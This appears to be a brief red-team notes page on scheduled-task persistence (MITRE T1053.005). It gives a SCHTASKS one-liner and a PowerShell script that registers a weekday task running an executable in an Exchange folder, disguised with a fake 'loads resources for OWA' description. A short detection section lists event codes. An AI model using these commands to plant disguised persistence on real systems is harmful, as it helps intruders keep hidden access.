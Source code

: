 # [Job Scheduling](https://attack.mitre.org/techniques/T1053/005/)

## Exploit Syntax

### Method 1 | `sharpps` [ UNTESTED ]

```powershell 
sharpps SCHTASKS /CREATE /SC DAILY /TN "MyTasks\Notepad task" /TR "Path to the executable you want to run" /ST 11:00
```
### Method 2 | `pslo`

1. Create a txt file named `schdTask.ps1`

2. Paste in the powershell below.

```powershell
$outpath = "D:\Exchange Server\FIP-FS\Bin\ScanEngineLoader.exe"
$action = New-ScheduledTaskAction -Execute $outpath
$days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
$trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 9am
Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "Engine Loader" -Description "This task loads resouces for OWA."
```
3. Run 'pslo \<schdTask.ps1 file path>' 

---

## Detection Method

* Investigate file creations in the default windows task folder - C:\Windows\System32\Tasks folder.
    * Event.code: 1 
    * Event.action: process create 
    * Event.code: 4698 or 4699
 
---

## Resources